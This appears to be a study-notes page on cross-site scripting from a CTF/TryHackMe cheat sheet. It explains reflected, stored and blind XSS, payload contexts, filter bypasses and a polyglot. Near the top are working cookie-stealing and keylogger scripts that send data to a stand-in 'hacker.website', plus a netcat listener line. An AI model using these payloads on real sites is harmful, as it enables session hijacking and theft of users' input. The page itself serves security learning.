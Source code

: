 # XSS vulnerabilities (Javascript)

[![xssgi](../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xssgi](../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)

<div class="row row-cols-md-2"><div>

Cross-site Scripting, most commonly called **XSS**, refer to injecting malicious JavaScript in a web application with the goal of it being executed by other users.

**The usual proof of concept**: show an alert if the script was executed.

```js
<script>alert('XSS')</script>
```

I think you would enjoy more

```js
<script>console.log('XSS')</script>
```

You will most likely use these references:

* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) (42.5k ⭐)
* [OWASP Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html) (22k ⭐)
* [OWASP DOM XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html) (22k ⭐)

<br>

One thing to remember is that you would rather make it invisible to the user that a script is being executed in its browser. As such, if you inject a malicious payload in the source attribute of an image field, it would be best to still make sure an image is properly displayed, so that it does not look suspicious at first glance.

</div><div>

<p class="text-center">Some attacks</p>

**Session hijacking**: anyone executing this script will send their cookie to a malicious website owned by the hacker used to capture cookies. The script is using `btoa()` to encode in base64 the values. Sessions cookies are gold 💰, because with them, we can simulate that we are logged, and bypass verifications such as 2FA.

```html
<script>fetch('https://hacker.website/hijack?cookie=' + btoa(document.cookie));</script>
<!--
CTF: nc -nlvp port | And use the ip:port
Decode: sed -n 's/GET \/?cookie=\(.*\)/\1/p' request | base64 -d
-->
<script>fetch('http://ip:port/?cookie=' + btoa(document.cookie));</script>
```

**A keylogger**: send keys pressed to the hacker website. The script is using `btoa()` to encode in base64 the values.

<details class="details-n">
<summary>See code</summary>

```html
<script>
    let keys = ''
    document.onkeydown = e => keys += e.key
    setInterval(() => {
        if (keys === '') return
        fetch('https://hacker.website/keylogger?key=' + btoa(keys) )
        keys = ''
    }, 1000)
</script>
```
</details>

* Exploit the client privileges to query the website API if any
* Map open ports on the target
* ...

> See [XSS-payloads](http://www.xss-payloads.com/payloads-list.html?a#category=all) for more exploits, but it's a bit old.
</div></div>

<hr class="sl">

## Reflected XSS

<div class="row row-cols-md-2"><div>

The malicious code is usually inside a URL, and the vulnerable website when loading the URL, will execute the malicious website.
</div><div>

For instance, "https://vulnerable.search.engine" is a search engine in which the query is stored in the URL in the parameter `q`. The website is vulnerable to XSS, so if we open the URL, then the javascript will run in our browser.

```
https://vulnerable.search.engine/?q=%3Cscript%3Ealert(%27XSS%27)%3B%3C%2Fscript%3E
```
</div></div>

<hr class="sr">

## Stored XSS

<div class="row row-cols-md-2"><div>

The malicious code is stored by the website, usually in a database. Then, in another page loading the data from the database, a vulnerable website will execute the malicious code.

> Comments, profiles, listings... may be vulnerable.
</div><div>

For instance, a user using the value `<script>alert('XSS');</script>` as username. Then, for instance on the vulnerable profile page, any user opening a link to the compromised profile, will execute the malicious code.
</div></div>

<hr class="sl">

## DOM Based XSS

...

<hr class="sr">

## Blind XSS

<div class="row row-cols-md-2"><div>

In blind XSS, you are usually sending a payload in a contact/support... forms, in order to maybe steal information from the admin-side website if any. We are calling it "blind XSS", because it's not possible to see if it's working.
</div><div>

See [xsshunter](https://github.com/mandatoryprogrammer/xsshunter) (1.2k ⭐)
</div></div>

<hr class="sl">

## XSS payloads

<table class="table table-bordered table-striped border-dark mt-4">
<thead>
<tr><th>Case</th><th>HTML</th><th>Payload</th></tr>
</thead>
<tbody>

<tr><td>Boxed attribute</td><td><code>&lt;input value="here"&gt;</code></td><td><code>">MaliciousCodeHere</code></td></tr>

<tr><td>Unboxed attribute</td><td><code>&lt;input value=here&gt;</code></td><td><code>>MaliciousCodeHere</code></td></tr>

<tr><td>Wrapped</td><td><code>&lt;textarea>here&lt;/textarea&gt;</code></td><td><code>&lt;/textarea&gt;MaliciousCodeHere</code></td></tr>

<tr><td>JavaScript</td><td><code>xxx.innerHTML = 'here';</code></td><td><code>';MaliciousCodeHere;//</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onload="maliciousCodeHere"</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onerror="maliciousCodeHere"</code></td></tr>

</tbody></table>

<hr class="sr">

## Bypass filters

<div class="row row-cols-md-2"><div>

**Logic flaw**

Developers may not protect everything. For instance a select list in which a user is supposed to pick a country. A hacker can try to inject a malicious payload instead of a country, and as the developer used a select list, it may not be filtered.

**Bypass HTML symbols filtering**

If `<`, and `>` are filtered, an attacker may still use HTML attributes.
</div><div>

**Replace failures**

If a developer used a "replace" function, then they there are tricks such as the one below. If there is a filter removing "script", then after removal of "&lt;script&gt;", we will have "s" concatenated with "cript", and we successfully bypassed the filter.

```
<s<script>cript>alert('XSS');</s<script>cript>
// filter remove "<script>"
<script>alert('XSS');</script>
```

There are also various tricks using ASCII/... to bypass filters.
</div></div>

<hr class="sl">

## Polyglots - the magic payloads

<div class="row row-cols-md-2"><div>

XSS polyglots are sort of magic payloads designed to bypass many tags/attributes/filters/... at once.
</div><div>

An example

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```
</div></div>